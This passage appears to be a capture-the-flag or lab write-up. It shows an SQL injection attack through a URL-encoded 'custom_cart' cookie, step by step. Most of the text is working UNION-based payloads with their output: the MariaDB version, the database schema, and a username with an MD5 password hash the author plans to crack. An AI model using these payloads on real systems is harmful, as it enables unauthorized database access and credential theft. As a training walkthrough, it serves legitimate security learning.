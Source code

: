 "'" triggers an error
```bash
custom_cart=%7B%22YCS98E4A'%22%3A%221%22%7D

Not Found
```
adding a comment get's rid of the error so we can confirm that we are dealing with an ***error based in-band SQLI injection***.
```bash
custom_cart=%7B%22YCS98E4A' -- -%22%3A%221%22%7D

YCS98E4A
```
### Data Exfiltration

Now that we know that we are dealing with a SQLI let's try extracting the database, we begin by checking the number of columns.
```bash
custom_cart=%7B%22YCS98E4A' UNION SELECT 1,2,3 -- -%22%3A%221%22%7D

YCS98E4A
```

Now that we know that it works at 3 let's check which column reflects data back to us.
```bash
custom_cart=%7B%22YCS98E4' UNION SELECT 1,2,3 -- -%22%3A%221%22%7D

2
```
Testing by enumerating the version.
```bash
custom_cart=%7B%22' UNION SELECT 1,@@version,3 -- -%22%3A%221%22%7D

10.5.15-MariaDB-0+deb11u1
```

Now we can enumerate the the databases querying information_schema.schemata.
```bash
custom_cart=%7B%22' UNION SELECT 1,(select group_concat(schema_name) from information_schema.schemata),3 -- -%22%3A%221%22%7D

information_schema
checkout
```
We have 2 databases, we are only interested in the "checkout" database so let's enumerate it's tables and columns.
```bash
custom_cart=%7B%22' UNION SELECT 1,(select group_concat(table_name,':',column_name) from information_schema.columns where table_schema like 'checkout'),3 -- -%22%3A%221%22%7D

user:id
user:username
user:password
product:id
product:code
product:price
```
The password and username columns of the user table immediately jumps out so let's extract it's data
```bash
custom_cart=%7B%22' UNION SELECT 1,(select group_concat(username,':',password) from user),3 -- -%22%3A%221%22%7D

james_mason:fc895d4eddc2fc12f995e18c865cf273
```
We have a user name and what seems to be a MD5 hash that we will attempt to crack.